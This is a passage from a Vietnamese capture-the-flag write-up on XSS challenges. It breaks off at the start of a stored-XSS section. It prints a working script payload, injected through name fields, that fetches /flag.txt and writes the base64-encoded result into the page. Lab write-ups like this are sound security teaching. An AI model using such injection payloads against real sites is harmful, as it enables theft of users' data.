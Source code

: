 Thử generate thì thấy được cả firstname và lastname đều có thể lợi dụng 

![image.png](Images/image%209.png)

Payload lấy flag:
`<script>x = new XMLHttpRequest();x.onload = function() {document.write(btoa(x.responseText));};x.open('GET', '/flag.txt');x.send();</script>`

Sau khi generate thì thấy 1 chuỗi base64

![image.png](Images/image%2010.png)

Decode lại để lấy flag

## XSS-03: **XSS - Stored 1**

Trang này có tính năng gửi tin nhắn và lưu lại
